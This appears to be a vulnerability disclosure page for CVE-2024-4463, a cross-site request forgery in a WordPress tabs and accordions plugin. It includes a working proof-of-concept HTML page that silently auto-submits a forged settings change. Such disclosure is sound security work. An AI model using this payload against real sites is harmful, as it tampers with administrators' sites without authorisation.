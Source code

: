 ```yaml
---
layout: page
title: CVE-2024-4463
subtitle: Squelch Tabs and Accordions Shortcodes <= 0.4.7 - Cross-Site Request Forgery
---
```

## Description
The Squelch Tabs and Accordions Shortcodes plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 0.4.7. This is due to missing or incorrect nonce validation when saving plugin settings. This makes it possible for unauthenticated attackers to modify plugin settings via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS Vector CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 0.4.7

## PoC :
```
<html>
  <!-- Made by eneriiiii<3 / twitter.com/aaillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/themes.php?page=squelch-tabs-and-accordions-shortcodes" method="POST">
      <input type="hidden" name="jquery&#95;ui&#95;theme" value="smoothness" />
      <input type="hidden" name="disable&#95;magic&#95;url" value="on" />
      <input type="hidden" name="vanity&#95;url" value="eneri" />
      <input type="hidden" name="submitted" value="1" />
      <input type="hidden" name="submit" value="Save&#32;Changes" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3082482%40squelch-tabs-and-accordions-shortcodes%2Ftrunk&old=3067680%40squelch-tabs-and-accordions-shortcodes%2Ftrunk&sfp_email=&sfph_mail=
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/squelch-tabs-and-accordions-shortcodes/squelch-tabs-and-accordions-shortcodes-047-cross-site-request-forgery
- https://www.cve.org/CVERecord?id=CVE-2024-4463





